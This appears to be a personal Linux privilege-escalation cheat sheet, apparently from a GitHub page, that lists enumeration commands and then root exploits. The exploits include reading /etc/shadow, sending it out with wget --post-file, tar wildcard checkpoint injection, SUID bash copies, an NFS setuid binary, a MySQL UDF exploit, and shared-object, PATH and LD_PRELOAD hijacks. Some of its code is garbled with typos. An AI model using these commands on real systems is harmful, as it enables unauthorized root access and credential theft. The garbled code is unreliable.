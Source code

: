 System enumeration
> hostname 
> uname -a //For listing the version of the Linux OS using to find if the version its vulnerable
> cat /proc/version 
	/etc/*release
	/etc/lsb-release
	/etc/redhat-release
	
> cat /etc/issue
> ps aux // To list all the service are running on the device PD: you can see the user using pipping you can grep for the one which the root user it's actually 
running


 User Enumeration
> whoami
> id 
> sudo -l
> cat /etc/passwd
> cat /etc/shadow //password hased use JOHNN to  brute force it 
> cat /etc/group 


 Network Enumeration
> ifconfig
> ip route 
> arp -a
> ip neigh
> netsat //Win users and Linux OS users


Password Huting
>grep --color=auto -rnw '/' -ie 'PASSWORD' --color=always // Grep for files which contains PASSWORD word or password initication

Weak Files
> cat /etc/passwd
> cat /etc/shadow
> unshadow passwd shadow
> find / -name authotirzed_key -type f 2>/dev/null
> find / -name id_rsa 2>/dev/null
> chmod 600 id_ rsa = ssh -i id_rsa user@ip -p port

Sudo
> sudo -l to see all the files
    > vim : sudo vim -c '!sh'
    > apache2 : sudo apache2 /etc/shadow to see unauthorized files
    > wget : --post-file=/etc/shadow to your machine....
```
More on GTFobins
```

Capabilities
> getcap -r / 2>/dev/null
> which python3
> usr/bin/python3 = ./python3 'import os; os.setuid(0); os.system("/bin/bash")'

Crontab
> normal path = cat /etc/crontab 
> to see the process and use it to execute privilege escalation

Wildcard

 create file for exploitation
> touch ruta "--checkpoint=1"
> touch ruta "--checkpoint-action=exec=sh shell.sh"
> echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh
> echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > exploit.sh
> /tmp/bash -p
  vulnerable script
> tar cf archive.tar *

SUID

> find / -perm -4000 -type f 2>/dev/null
> find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null //FInd all SUID and SGID
NFS

>cat /etc/exports
>Track for no_root_squash files = the file is sharedable and mounteable
>showmount -o <IP>
> mkdir /tmp/mountme
>mount -o rw.vers=2 <IP>:/tmp /tmp/mountme
> echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0}' > /tmp/mountme/x.c
>gcc /tmp/mountme/x.c -p /tmp/mountme/x
>chmod +x /tmp/mountme/x
> And execute ./x
   
Service Exploits   
   
   > 	cd /home/user/tools/mysql-udf
   >	gcc -g -c raptor_udf2.c -fPIC
   >	gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
   
   >mysql -u root 
   >use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
> /tmp/rootbash -p

   
Shared Object Injection

> find / -type f -perm -4000 -ls  2>/dev/null

> strace PATH 2>/dev/null
 //Hunt for no such file or directory and write a code which give us root shell permissions
  grep -i -E “open|acess|no such file”
  
  
  CODE::
  
  #include <stdio.h>
  #include <stdlib.h>
  
  stactic void injec() __attribute>>((constructor));
  
  void inject(){
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");  
  }
  
  gcc -shared -fPIC -o /PATH/PATH/Original name.so 
  
  Binary Symlinks (nginx exploit)
  
  > dpkg -l | grep nginx 
  
  > We need the SUID set to Sudo to get the exploit work 
  >./nginxed-root.sh /var/log/nginx/error.log
  
  
	Enviromental
	
	> env 
	
	> find / -perm -4000 2>/dev/null
	
	find env suid's
	
	> echo “int main(){ setgui(0); setuid(0); system("/bin/bash"); return0;}” > /tmp/service.c
	> gcc /tmp/service.c -o /tmp/service
	> export path=/tmp:$PATH
	// execute the suid
	
	
		- If they are calling directly fron /usr/bin/X the service we have another way to do this
		
	function usr/sbin/service() {cp /bin/bash /tmp/bash; chmod +s /tmp/bash; /tmp/bash -p;}	
	
	export -f /usr/sbin/service
	
	and execute the suid
	
	
	
		Apache2
				
		sudo apache2 -f /etc/shadow
		
	
		LD_PRELOAD
		
		sudo -l 
		
		code :
		
		#include <stdio.h>
		#include <sys/types.h>
		#include <stdlib.h>
		
		void_init(){
		unsetenv("LD_PRELOAD");
		setgid(0);
		setuid(0);
		system("/bin/bash")		
		
		}
			
		gcc -fPIC -shared -o /tmp/x.so x.c -nostarfiles
		
		sudo LD_PRELOAD=/tmp/.so apache2
